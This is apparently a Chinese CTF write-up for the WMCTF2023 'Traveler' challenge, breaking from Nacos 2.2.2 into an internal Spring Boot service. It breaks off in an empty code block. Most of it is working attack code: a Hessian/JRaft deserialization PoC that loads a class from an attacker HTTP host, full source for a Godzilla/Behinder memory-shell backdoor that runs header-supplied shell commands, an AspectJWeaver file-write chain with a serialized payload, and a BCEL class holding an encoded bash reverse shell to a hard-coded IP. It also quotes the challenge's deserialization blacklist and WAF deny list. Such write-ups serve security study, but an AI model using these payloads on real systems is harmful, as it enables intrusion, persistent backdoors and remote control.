




# Traveler

## 题目简述

nacos 版本为 `2.2.2`。



题目主线是从外网 Nacos 打进内网 Spring Boot 服务。Nacos `2.2.2` 存在 Hessian 反序列化攻击面，可通过 JRaft/WriteRequest 链路投递恶意 Hessian 数据并注入内存马；拿到内网访问能力后，再针对内网 Spring Boot 服务的表达式/WAF 逻辑构造 BCEL payload，最终执行命令读取 flag。

## 解题过程

这个版本的 nacos 存在 Hessian 反序列化漏洞。结合题目给出的 2 个附件可判断内网确实有一个 springboot 服务，flag 在该内网服务内。第一步应先在 nacos 上投放内存马。由于题目已公开较久，内存马线程注入工具链基本成熟。这里我对 Hessian PoC 源码做了少量改动，并加入部分黑名单，避免工具在注入时误伤链路。对应 PoC 如下：

```java
package com.example.nacoshessianrce;

import com.alibaba.nacos.consistency.entity.WriteRequest;
import com.alipay.sofa.jraft.RouteTable;
import com.alipay.sofa.jraft.conf.Configuration;
import com.alipay.sofa.jraft.entity.PeerId;
import com.alipay.sofa.jraft.option.CliOptions;
import com.alipay.sofa.jraft.rpc.impl.MarshallerHelper;
import com.alipay.sofa.jraft.rpc.impl.cli.CliClientServiceImpl;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.fasterxml.jackson.databind.node.POJONode;
import com.google.protobuf.ByteString;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.naming.ResourceRef;

import javax.naming.CannotProceedException;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
import javax.naming.directory.DirContext;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.Hashtable;
import java.util.concurrent.ConcurrentHashMap;

public class UrlClassLoaderExploit {
    public static void sendpayload(String address,byte[] payloads) throws Exception {
        Configuration conf = new Configuration();
        conf.parse(address);
        RouteTable.getInstance().updateConfiguration("naco", conf);
        CliClientServiceImpl cliClientService = new CliClientServiceImpl();
        cliClientService.init(new CliOptions());
        RouteTable.getInstance().refreshLeader(cliClientService, "nacos", 5000).isOk();
        PeerId leader = PeerId.parsePeer(address);
        Field parserClasses = cliClientService.getRpcClient().getClass().getDeclaredField("parserClasses");
        parserClasses.setAccessible(true);
        ConcurrentHashMap map = (ConcurrentHashMap) parserClasses.get(cliClientService.getRpcClient());
        map.put("com.alibaba.nacos.consistency.entity.WriteRequest", WriteRequest.getDefaultInstance());
        MarshallerHelper.registerRespInstance(WriteRequest.class.getName(), WriteRequest.getDefaultInstance());
        final WriteRequest writeRequest = WriteRequest.newBuilder().setGroup("naming_persistent_service_v2").setData(ByteString.copyFrom(payloads)).build();
        //final WriteRequest writeRequest = WriteRequest.newBuilder().setGroup("test_group").setData(ByteString.copyFrom(payloads)).build();
        Object o = cliClientService.getRpcClient().invokeSync(leader.getEndpoint(), writeRequest, 5000);
    }


    public static void main(String[] args) throws Exception {
        //URLCLASSLOADER RCE
        Reference refObj=new Reference("ControllerMemShell","GozillaMemShell","http://<ATTACKER_HTTP>/");
        //Reference refObj=new Reference("evilref","evilref","http://<ATTACKER_HTTP>/");
        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationDirContext"); //$NON-NLS-1$
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();

        cpe.setResolvedObj(refObj);
        DirContext ctx = (DirContext) ccCons.newInstance(cpe, new Hashtable<>());
        POJONode jsonNodes = new POJONode(ctx);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output oos = new Hessian2Output(baos);
        baos.write(79);
        oos.getSerializerFactory().setAllowNonSerializable(true);
        oos.writeObject(jsonNodes);
        oos.flushBuffer();
        byte[] bytespayload = baos.toByteArray();
        //sendpayload("127.0.0.1:7848",bytespayload);
        sendpayload("<NACOS_HOST>:7848",bytespayload);
        //sendpayload("<NACOS_HOST>:7848",bytespayload);
        //sendpayload("localhost:7848",bytespayload);
        Hessian2Input hessian2Input = new Hessian2Input(new ByteArrayInputStream(baos.toByteArray()));
        //hessian2Input.readObject();

    }
    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        //Field writeReplaceMethod = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");
        //writeReplaceMethod.setAccessible(true);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
        System.out.println(s.length());
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}

```

一个可用的 Godzilla 内存马如下：

```java
import org.apache.catalina.Context;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.ResponseFacade;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import org.apache.tomcat.util.http.Parameters;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.*;

public class GozillaMemShell {
    final String name="Boogipop";
    // 第一个构造函数
    String uri;
    String serverName="localhost";
    StandardContext standardContext;
    static {
        try {
            new GozillaMemShell();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    String xc = "3c6e0b8a9c15224a"; // key
    String pass = "pass";
    String md5 = md5(pass + xc);
    Class payload;
    public byte[] x(byte[] s, boolean m) {
        try {
            Cipher c = Cipher.getInstance("AES");
            c.init(m ? 1 : 2, new SecretKeySpec(xc.getBytes(), "AES"));
            return c.doFinal(s);
        } catch (Exception e) {
            return null;
        }
    }
    public static String md5(String s) {
        String ret = null;
        try {
            java.security.MessageDigest m;
            m = java.security.MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
        } catch (Exception e) {
        }
        return ret;
    }

    public static String base64Encode(byte[] bs) throws Exception {
        Class base64;
        String value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
            value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Encoder");
                Object Encoder = base64.newInstance();
                value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return value;
    }

    public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return value;
    }
    public static Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {

                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException e) {
                // field不存在，错误不抛出，测试时可以抛出
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    public GozillaMemShell() throws Exception {
        getStandardContext();
    }

    public void getStandardContext() throws NoSuchFieldException, IllegalAccessException, NoSuchMethodException, InvocationTargetException, InstantiationException, ClassNotFoundException {
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = getField(thread, "target");
                HashMap children;
                Object jioEndPoint = null;
                try {
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception e) {
                }
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                    } catch (Exception e) {
                        return;
                    }
                }
                Object service = getField(getField(getField(
                        getField(getField(jioEndPoint, "handler"), "proto"),
                        "adapter"), "connector"), "service");
                Object engine = null;
                try {
                    engine = getField(service, "container");
                } catch (Exception e) {
                }
                if (engine == null) {
                    engine = getField(service, "engine");
                }

                children = (HashMap) getField(engine, "children");
                Object standardHost = children.get(this.serverName);

                children = (HashMap) getField(standardHost, "children");
                Iterator iterator = children.keySet().iterator();
                while (iterator.hasNext()) {
                    String contextKey = (String) iterator.next();
                    standardContext = (StandardContext) children.get(contextKey);
                    Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
                    Configs.setAccessible(true);
                    Map filterConfigs = (Map) Configs.get(standardContext);
                    if (filterConfigs.get(name) == null){
                        //开始添加Filter过滤器
                        Filter filter = new Filter() {
                            @Override
                            public void init(FilterConfig filterConfig) throws ServletException {

                            }

                            @Override
                            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                                HttpServletRequest request = (HttpServletRequest) servletRequest;
                                HttpServletResponse response = (HttpServletResponse) servletResponse;
                                //定义了恶意的FIlter过滤器，在dofilter方法执行恶意代码
                                try {
                                    // 入口
                                    if (request.getHeader("Referer").equalsIgnoreCase("https://www.boogipop.com/")) {
                                        Object lastRequest = request;
                                        Object lastResponse = response;
                                        // 解决包装类RequestWrapper的问题
                                        // 详细描述见 https://github.com/rebeyond/Behinder/issues/187
                                        if (!(lastRequest instanceof RequestFacade)) {
                                            Method getRequest = ServletRequestWrapper.class.getMethod("getRequest");
                                            lastRequest = getRequest.invoke(request);
                                            while (true) {
                                                if (lastRequest instanceof RequestFacade) break;
                                                lastRequest = getRequest.invoke(lastRequest);
                                            }
                                        }
                                        // 解决包装类ResponseWrapper的问题
                                        if (!(lastResponse instanceof ResponseFacade)) {
                                            Method getResponse = ServletResponseWrapper.class.getMethod("getResponse");
                                            lastResponse = getResponse.invoke(response);
                                            while (true) {
                                                if (lastResponse instanceof ResponseFacade) break;
                                                lastResponse = getResponse.invoke(lastResponse);
                                            }
                                        }
                                        // cmdshell
                                        if (request.getHeader("x-client-data").equalsIgnoreCase("cmd")) {
                                            String cmd = request.getHeader("cmd");
                                            if (cmd != null && !cmd.isEmpty()) {
                                                String[] cmds = null;
                                                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                                                    cmds = new String[]{"cmd", "/c", cmd};
                                                } else {
                                                    cmds = new String[]{"/bin/bash", "-c", cmd};
                                                }
                                                String result = new Scanner(Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();
                                                ((ResponseFacade) lastResponse).getWriter().println(result);
                                            }
                                        } else if (request.getHeader("x-client-data").equalsIgnoreCase("rebeyond")) {
                                            if (request.getMethod().equals("POST")) {
                                                // 创建pageContext
                                                HashMap pageContext = new HashMap();

                                                // lastRequest的session是没有被包装的session!!
                                                HttpSession session = ((RequestFacade) lastRequest).getSession();
                                                pageContext.put("request", lastRequest);
                                                pageContext.put("response", lastResponse);
                                                pageContext.put("session", session);
                                                // 这里判断payload是否为空 因为在springboot2.6.3测试时request.getReader().readLine()可以获取到而采取拼接的话为空字符串
                                                String payload = request.getReader().readLine();
                                                if (payload == null || payload.isEmpty()) {
                                                    payload = "";
                                                    // 拿到真实的Request对象而非门面模式的RequestFacade
                                                    Field field = lastRequest.getClass().getDeclaredField("request");
                                                    field.setAccessible(true);
                                                    Request realRequest = (Request) field.get(lastRequest);
                                                    // 从coyoteRequest中拼接body参数
                                                    Field coyoteRequestField = realRequest.getClass().getDeclaredField("coyoteRequest");
                                                    coyoteRequestField.setAccessible(true);
                                                    org.apache.coyote.Request coyoteRequest = (org.apache.coyote.Request) coyoteRequestField.get(realRequest);
                                                    Parameters parameters = coyoteRequest.getParameters();
                                                    Field paramHashValues = parameters.getClass().getDeclaredField("paramHashValues");
                                                    paramHashValues.setAccessible(true);
                                                    LinkedHashMap paramMap = (LinkedHashMap) paramHashValues.get(parameters);

                                                    Iterator<Map.Entry<String, ArrayList<String>>> iterator = paramMap.entrySet().iterator();
                                                    while (iterator.hasNext()) {
                                                        Map.Entry<String, ArrayList<String>> next = iterator.next();
                                                        String paramKey = next.getKey().replaceAll(" ", "+");
                                                        ArrayList<String> paramValueList = next.getValue();
                                                        if (paramValueList.size() == 0) {
                                                            payload = payload + paramKey;
                                                        } else {
                                                            payload = payload + paramKey + "=" + paramValueList.get(0);
                                                        }
                                                    }
                                                }

//                        System.out.println(payload);
                                                // 冰蝎逻辑
                                                String k = "e45e329feb5d925b"; // rebeyond
                                                session.putValue("u", k);
                                                Cipher c = Cipher.getInstance("AES");
                                                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
                                                Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                                                method.setAccessible(true);
                                                byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(payload));
                                                Class evilclass = (Class) method.invoke(Thread.currentThread().getContextClassLoader(), evilclass_byte, 0, evilclass_byte.length);
                                                evilclass.newInstance().equals(pageContext);
                                            }
                                        } else if (request.getHeader("x-client-data").equalsIgnoreCase("godzilla")) {
                                            // 哥斯拉是通过 localhost/?pass=payload 传参 不存在包装类问题
                                            byte[] data = base64Decode(request.getParameter(pass));
                                            data = x(data, false);
                                            if (payload == null) {
                                                URLClassLoader urlClassLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
                                                Method defMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                                                defMethod.setAccessible(true);
                                                payload = (Class) defMethod.invoke(urlClassLoader, data, 0, data.length);
                                            } else {
                                                java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
                                                Object f = payload.newInstance();
                                                f.equals(arrOut);
                                                f.equals(data);
                                                f.equals(request);
                                                response.getWriter().write(md5.substring(0, 16));
                                                f.toString();
                                                response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));
                                                response.getWriter().write(md5.substring(16));
                                            }
                                        }
                                        return;
                                    }
                                } catch (Exception e) {
//            e.printStackTrace();
                                }
                                filterChain.doFilter(servletRequest, servletResponse);
                            }

                            @Override
                            public void destroy() {

                            }

                        };

                        FilterDef filterDef = new FilterDef();
                        filterDef.setFilter(filter);
                        filterDef.setFilterName(name);
                        filterDef.setFilterClass(filter.getClass().getName());
                        /**
                         * 将filterDef添加到filterDefs中
                         */
                        standardContext.addFilterDef(filterDef);

                        FilterMap filterMap = new FilterMap();
                        filterMap.addURLPattern("/*");
                        filterMap.setFilterName(name);
                        filterMap.setDispatcher(DispatcherType.REQUEST.name());

                        standardContext.addFilterMapBefore(filterMap);
                        /**
                         * 添加FilterMap
                         */
                        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
                        constructor.setAccessible(true);
                        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

                        filterConfigs.put(name,filterConfig);
                        /**
                         * 反射获取ApplicationFilterConfig对象，往filterConfigs中放入filterConfig
                         */
                        System.out.println("Inject Success !");
                    }
                    return;
                }
            }
        }
    }

    public static void main(String[] args) {

    }
}
```

内存马中的 GitHub issue 链接说明的是 Behinder 在 Tomcat/Spring 场景下可能拿到 `RequestWrapper` 而不是底层 `RequestFacade`。因此代码需要循环调用 `ServletRequestWrapper.getRequest()`，直到解包到真正的 Tomcat request，再读取参数、解密 payload 并执行 Godzilla/Behinder 兼容逻辑。

需要将内存马 class 文件放到可公开访问的 HTTP 目录，运行 payload 后实例化该内存马，最终即可在其上连接 Godzilla。



查看网卡信息（ifconfig）

```
root@32ce0e0829d2:/tmp# ifconfig 
eth0      Link encap:Ethernet  HWaddr 02:42:ac:10:ee:0a  
          inet addr:172.16.238.10  Bcast:172.16.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:98773 errors:0 dropped:0 overruns:0 frame:0
          TX packets:118737 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:45285036 (45.2 MB)  TX bytes:38766178 (38.7 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:18413 errors:0 dropped:0 overruns:0 frame:0
          TX packets:18413 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:5686911 (5.6 MB)  TX bytes:5686911 (5.6 MB)
```

可见内网地址：`docker-compose.yml` 指定 springboot 服务位于 `172.16.238.81:8686`，且题目也提供了该服务源码。

有两个路由：



由于 WAF 存在，无法通过 `readobject` 直接执行命令。

```java
package com.wmctf.javamaster.utils;

import javax.swing.*;
import java.io.*;

public class WmObjectInputStream extends ObjectInputStream {
    private static int count=0;
    private static final String[] blacklist = new String[]{"java.security","javax.swing.AbstractAction","javax.management", "java.rmi","sun.rmi", "org.hibernate", "org.springframework", "com.mchange.v2.c3p0", "com.rometools.rome.feed.impl", "java.net.URL", "java.lang.reflect.Proxy", "javax.xml.transform.Templates", "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "org.apache.xalan.xsltc.trax.TemplatesImpl", "org.python.core", "com.mysql.jdbc", "org.jboss","com.fasterxml.jackson","com.sun.jndi","com.alibaba.fastjson.JSONObject"};

    public WmObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    protected WmObjectInputStream() throws IOException, SecurityException {
    }

    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        String[] var3 = blacklist;
        int var4 = var3.length;
        for(int var5 = 0; var5 < var4; ++var5) {
            String forbiddenPackage = var3[var5];
            if (className.startsWith(forbiddenPackage)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }

        return super.resolveClass(desc);
    }
}
```

`/` 路由明确存在 Thymeleaf 的模板注入。题目要求先读取一个文件，并且文件内容是 `WelCome To WMCTF2023`，可考虑利用 AspectJWeaver 链式调用写入任意文件，再触发 SSTI 获取最终 RCE。

```java
package org.example;

import com.sun.org.apache.xml.internal.security.utils.Base64;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class AspectJWeaver {

    public static void main(String[] args) throws Exception {

        byte[] content = Base64.decode("V2VsQ29tZSBUbyBXTUNURjIwMjM=");
        String path = "/tmp/secure.txt";

        Class aspectJWeaver = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor ctor = aspectJWeaver.getDeclaredConstructor(String.class, int.class);
        ctor.setAccessible(true);
        Object obj = ctor.newInstance("",2);

        Transformer transformer = new ConstantTransformer(content);

        Map lazyMap = LazyMap.decorate((Map)obj, transformer);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, path);

        HashMap hashMap = new HashMap();
        hashMap.put("foo", "a");

        Field field = HashMap.class.getDeclaredField("table");
        field.setAccessible(true);

        Object[] array = (Object[]) field.get(hashMap);
        int a = 0;
        for(int i=0;i<array.length;i++)
            if(array[i]!=null)
                a=i;
        Object node = array[a];
        Field keyField = node.getClass().getDeclaredField("key");
        keyField.setAccessible(true);
        keyField.set(node, entry);
        System.out.println(serial(hashMap));
    }
    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        //Field writeReplaceMethod = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");
        //writeReplaceMethod.setAccessible(true);
        oos.writeObject(o);
        oos.close();

        String base64String = java.util.Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = java.util.Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = java.util.Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
        System.out.println(s.length());
    }

}
```

```
payload=rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IANG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5rZXl2YWx1ZS5UaWVkTWFwRW50cnmKrdKbOcEf2wIAAkwAA2tleXQAEkxqYXZhL2xhbmcvT2JqZWN0O0wAA21hcHQAD0xqYXZhL3V0aWwvTWFwO3hwdAAPL3RtcC9zZWN1cmUudHh0c3IAKm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5tYXAuTGF6eU1hcG7llIKeeRCUAwABTAAHZmFjdG9yeXQALExvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHBzcgA7b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHEAfgADeHB1cgACW0Ks8xf4BghU4AIAAHhwAAAAFFdlbENvbWUgVG8gV01DVEYyMDIzc3IAPm9yZy5hc3BlY3RqLndlYXZlci50b29scy5jYWNoZS5TaW1wbGVDYWNoZSRTdG9yZWFibGVDYWNoaW5nTWFwO6sCH0tqVloCAANKAApsYXN0U3RvcmVkSQAMc3RvcmluZ1RpbWVyTAAGZm9sZGVydAASTGphdmEvbGFuZy9TdHJpbmc7eHEAfgAAP0AAAAAAAAB3CAAAABAAAAAAeAAAAYms%2ByzRAAAAAnQAAHh0AAFheA%3D%3D
```

上面的 pass 参数可以先写入一个文件。后续的最终 SSTI 同样会经过 WAF 处理。

```java
package com.wmctf.javamaster.utils;

import java.io.UnsupportedEncodingException;
import java.net.URLDecoder;
import java.util.ArrayList;
import java.util.Arrays;
import java.util.List;
import java.util.Locale;

public class WmWaf {
    private List<String> denychar = new ArrayList(Arrays.asList("java.lang", "Runtime", "org.springframework", "javax.naming", "Process", "ScriptEngineManager","+","replace"));
    public boolean securitycheck(String payload) throws UnsupportedEncodingException {
        if (payload.isEmpty()) {
            return false;
        } else {
            String reals = URLDecoder.decode(payload, "UTF-8").toUpperCase(Locale.ROOT);
            for(int i = 0; i < this.denychar.size(); ++i) {
                if (reals.toUpperCase(Locale.ROOT).contains((this.denychar.get(i)).toUpperCase(Locale.ROOT))) {
                    return false;
                }
            }

            return true;
        }
    }

    public WmWaf() {
    }
}

```

原始 payload 无法直接使用，原因是 WAF 干扰，本题服务版本为 3.0.12，需要额外做转义。最终可通过 `com.sun.org.apache.bcel.internal.util.JavaWrapper` 的 `_main` 方法加载 BCEL 字节码，从而反弹 shell。

```java
package org.example;

import java.io.IOException;

public class calc {
    public static void _main(String[] argv) throws IOException {
        Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuMTE2LjExOS4yNTMvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}");
    }

    public static void main(String[] args) {

    }
}

```

将代码编译为 bcel bytecode

```java
package org.example;

